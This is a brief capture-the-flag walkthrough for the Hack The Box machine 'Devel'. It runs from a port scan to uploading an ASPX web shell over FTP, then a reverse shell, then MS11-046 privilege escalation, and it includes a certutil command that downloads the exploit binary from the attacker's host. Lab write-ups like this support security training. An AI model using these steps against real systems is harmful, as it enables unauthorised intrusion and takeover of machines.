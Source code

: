# Devel
- URL : https://app.hackthebox.eu/machines/3
- IP : `10.129.208.183`

## Information Gathering
- Port Scan
	- `rustscan -a 10.129.208.183 -r 1-65535`
	- 21 : FTP
	- 80 : Web

## FTP Services
- Try to connect to ftp
	- ![](https://i.imgur.com/NlEyGJA.png)
- Use Aspx Web shell
	- https://raw.githubusercontent.com/SecWiki/WebShell-2/master/Aspx/awen%20asp.net%20webshell.aspx
	- ![](https://i.imgur.com/kQiXZnv.png)

## Web Shell
- ![](https://i.imgur.com/lTQfQ5B.png)
- Install Reverse Shell
	- ASPX Reverse shell
	- https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
## Reverse shell
- ![](https://i.imgur.com/QUwHk42.png)
- Check System Info
	- ![](https://i.imgur.com/X0rmprC.png)
		- user : `iis apppool\web`
	- ![](https://i.imgur.com/MVFpkLO.png)
		- System : Win 7 x64 6.1.7600 N/A Build 7600
	- ![](https://i.imgur.com/8coNqal.png)
		- Check Environment Variable
## Privilege Escalation
- With OS Version
	- ![](https://i.imgur.com/9jBTj6Z.png)
- Exploit : MS11-046 Kernel Exploits
	- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046
- Download Exploit file to target machine
	- `certutil -urlcache -f http://10.10.16.35:8000/ms11-046.exe ms11-046.exe`
		- ![](https://i.imgur.com/lTEY1uw.png)
- Run binary
	- ![](https://i.imgur.com/QnsjTtY.png)
	- Get System
- User Flag
	- ![](https://i.imgur.com/WVxjMQC.png)
- Root Flag
	- ![](https://i.imgur.com/chjisN8.png)
